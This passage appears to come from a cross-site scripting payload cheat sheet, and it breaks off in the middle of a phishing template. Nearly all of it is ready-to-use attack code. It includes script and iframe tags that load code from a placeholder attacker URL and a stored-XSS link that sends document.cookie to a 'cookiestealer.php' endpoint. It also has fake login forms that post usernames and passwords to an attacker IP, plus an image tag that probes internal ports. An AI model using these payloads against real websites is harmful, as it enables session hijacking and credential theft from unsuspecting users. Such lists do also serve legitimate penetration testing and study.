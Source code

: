 ## Attack Vector

### Port Scanning

```
<img src="http://[::]:8000/image.jpg"><img>
```

### HTML Attributes

- A list of payloads to inject links

```
<script>document.location="http[s]://<attacker_URL>/script.js"</script>
<script>window.location="http[s]://<attacker_URL>/script.js"</script>
<script src="http[s]://<attacker_URL>/script.js"></script>
<img src="http[s]://<attacker_URL>/script.js">
<svg src="http[s]://<attacker_URL>/script.js">
<iframe src="http[s]://<attacker_URL>/script.js">
```

### Inject JavaScript code

- XSS DOM object

```
http[s]://<IP>/index.php?<parameter_id>=<script>window.onload=function(){document.getElementsByName('<html_attribute_field>')[0].innerHTML='XSS is easy!';document.getElementById('<html_ID_attribute>').submit();}</script>

http[s]://<IP>/index.php?page=<script>window.onload=function(){document.getElementsByName('comment')[0].innerHTML='XSS is easy!';document.getElementById('post').submit();}</script>
```

- For stored XSS

```
<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php='+escape(document.cookie)"What is XSS?

<a href="https://www.google.com/search?q=what+is+xss" onmouseover="window.location='http[s]://<attacker_URL>/cookiestealer.php?cookie='+escape(document.cookie)"What is XSS?
```

### Phishing Templates

#### Harvest Cookies

##### Client Side

- Phishing Form

```html
<h3>Login To Proceed</h3>
<form action=http://<attacker_IP>>
	Username:<br><input type="username" name="Username"></br>
	Password:<br><input type="password" name="Password"></br>
<br><input type="submit" value="Logon"></br>

<h3>Login to continue</h3>  
<form action=http://<attacker_IP>>  
 <input type="username" name="username" placeholder="Username">  
 <input type="password" name="password" placeholder="Password">  
 <input type="submit" name="submit" value="Login">  
</form>

<div>
```